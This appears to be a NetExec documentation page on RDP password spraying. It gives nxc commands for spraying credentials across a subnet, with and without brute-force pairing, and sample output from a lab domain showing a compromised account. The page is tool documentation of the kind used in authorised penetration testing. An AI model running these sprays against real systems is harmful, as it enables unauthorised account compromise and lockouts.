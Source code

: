 ```yaml
---
description: RDP password spraying using NetExec
---
```


# Password spraying

#### Password spraying

```
#~ nxc rdp 192.168.1.0/24 -u user -p password
```

```
$ nxc rdp 192.168.133.157 -u ron -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
                                                                                                                                                                
$ nxc rdp 192.168.133.157 -u rubeus -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)
```

#### Password spraying (without bruteforce)

```
#~ poetry run NetExec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
└─$ nxc rdp 192.168.133.157 -u /tmp/users -p passwordfile --no-bruteforce
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:toto 
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\demo:tata
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!
```

{% hint style="info" %}
By default, nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
{% endhint %}
